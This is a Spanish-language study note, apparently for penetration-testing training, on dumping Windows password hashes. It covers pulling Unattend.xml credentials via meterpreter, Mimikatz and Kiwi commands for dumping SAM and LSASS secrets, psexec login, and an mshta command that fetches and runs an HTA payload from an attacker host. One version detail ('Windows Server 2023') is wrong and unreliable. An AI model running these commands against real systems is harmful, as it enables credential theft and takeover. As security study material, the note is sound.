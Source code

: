 30-03-2025 18:56
Status: #idea
Tags: [[Windows Credential Dumping]]

- [[#SAM Database|SAM Database]]
- [[#Buscando contraseñas en ficheros de configuración|Buscando contraseñas en ficheros de configuración]]
- [[#Herramientas|Herramientas]]
	- [[#Herramientas#Mimikatz|Mimikatz]]
		- [[#Mimikatz#Ejecutable|Ejecutable]]
		- [[#Mimikatz#Módulo Kiwi en metasploit|Módulo Kiwi en metasploit]]

# Windows Password Hashes

Windows guarda las hashes de las cuentas de usuarios localmente en la base de datos del SAM (Security Accounts Manager).

La autenticación y verificación de las credenciales de usuario son facilitadas por el Local Security Authority (LSA).

Las versiones de Windows mayores que Windows Server 2023, utilizan dos tipos de hashes: **LM y NTLM**. A partir de Windows Vista, se han desactivado las LM y solo se utiliza el NTLM hashing.

## SAM Database

Como hemos dicho anteriormente, las contraseñas hasheadas de todos los usuarios se guardan en esta base de datos.

Esta base de datos se puede copiar mientras el sistema operativo está funcionando.

El kernel mantiene bloqueada esta base de datos, por lo tanto los atacantes normalmente utilizan técnicas de memoria y herramientas para hacer dump desde el proceso LSASS.

En versiones recientes de Windows, la base de datos SAM está encriptada con una syskey.


> [!TIP] Privilegios y LSASS
> Para poder interactuar con el proceso de lsass necesitaremos permisos elevados o de administrador.


## Buscando contraseñas en ficheros de configuración

Windows permite automatizar tareas repetitivas, como la configuración e instalación de Windows en varios sistemas.

Esto normalmente se consigue con la utilidad "Unattended Windows Setup", que nos permite automatizar la instalación masiva de sistemas Windows.

Esta herramienta utiliza ficheros de configuración que contiene configuraciones específicas, y credenciales de cuentas válidas, especialmente, la contraseña de la cuenta Administrator.

Si estos ficheros se dejan en el sistema después de la instalación, podrán revelar credenciales de usuarios que podrían ser utilizadas por atacantes para autenticarse en el sistema.

Los directorios de estos ficheros son:

- **C:\Windows\Panther\Unattend.xml
- **C:\Windows\Panther\Autounattend.xml**

Estas contraseñas pueden estar presentes con encoding base64.

Para conseguir este fichero en nuestro sistema objetivo, tendríamos que tener acceso a el, ya sea con una sesión de meterpreter o a través de otros exploits.

Si tenemos una sesión de meterpreter, podremos descargar el fichero con el comando download:

```shell
download C:\Windows\Panther\Unattend.xml
```

Una vez tengamos el fichero, podremos hacer un cat y buscar las contraseñas, sobre todo del usuario de administración. Veremos que es una string en base64. Si la metemos en un fichero txt, por ejemplo password.txt, podremos usar la utilidad base64 que ya viene en kali directamente:

```shell
base64 -d password.txt
```

Y esto nos dará la contraseña. Puede que no sea válida, pero podremos probarla con psexec.py:

```shell
psexec.py Administrator@10.10.10.10
```

Si todo sale bien, deberíamos ser NT AUTHORITY\SYSTEM.

## Herramientas

Utilidades que podremos usar serán [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), que nos permitirá ver si existen estos ficheros, ya que es un script que se encarga de ejecutar un audit.

Si queremos ejecutar un cmd como administrador en Windows podremos usar el comando: 

```powershell
runas.exe /user:administrator cmd
```

Si queremos ejecutar una payload desde el cmd de privilegios elevados podemos usar el exploit [**hta_server**](https://www.rapid7.com/db/modules/exploit/windows/misc/hta_server/), que nos proporcionará una url que podremos acceder desde nuestro powershell para conseguir una sesión de meterpreter.

Después desde nuestro powershell ejecutaremos:

```powershell
mshta.exe http://10.10.49.4:8080/Tomvj9c.hta
```

### Mimikatz

Mimikatz es una herramienta para la post-explotación que nos permite extraer contraseñas clear-text.

Lo que hace es extraer hashes del proceso lsass.exe, que es donde se cachean estas.

Podemos ejecutar su ejecutable, o si tenemos una sesión de meterpreter, utilizar el módulo Kiwi.

#### Ejecutable

En Kali tenemos el ejecutable de Mimikatz ya instalado. Se encuentra en la ruta **usr/share/windows-resources/mimikatz/x64/mimikatz.exe**.  

Si tenemos una sesión de meterpreter, podremos subirlo con el comando upload en la carpeta **Temp**, y posteriormente, invocar una shell para ejecutarlo.

```terminal
shell

.\mimikatz.exe
```

Comprobaremos que tenemos los permisos suficientes con este comando:

```terminal
privilege::debug
```

Si nos devuelve un **Privilege '20' OK**, nos está indicando que tenemos suficientes privilegios para hacer el dumping.

**Recuerda hacer migrate al proceso de lsass para tener el NT AUTHORITY\SYSTEM.**

Esto lo podremos hacer con el comando:

```terminal
lsadump::sam
lsadump::secrets
```

En este caso, el ejecutable nos da más información de la que nos proporcionará Kiwi.

También podemos probar suerte y ver si nos devuelve contraseñas en texto plano:

```terminal
sekurlsa::logonpasswords
```

#### Módulo Kiwi en metasploit

Para cargar el módulo tendremos que hacer: 

```terminal
load kiwi
```

Y posteriormente, se pueden usar varios comandos para conseguir dumpear las hashes, pero entre ellos está:

```terminal
creds_all
```

También podremos usar **lsa_dump_sam** para volcar la base de datos SAM, como vimos anteriormente: 

```terminal
// Vuelca la base de datos SAM
lsa_dump_sam

// Vuelca secretos, donde a veces se pueden encontrar datos interesantes
lsa_dump_secrets
```

#### Post exploitation

Después de tener los hashes, podremos realizar Pass The Hash. En esta sección linkeada se explica correctamente el proceso, y como lo podemos realizar.

[[Vulnerability Assessment#Pass The Hash]]



---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
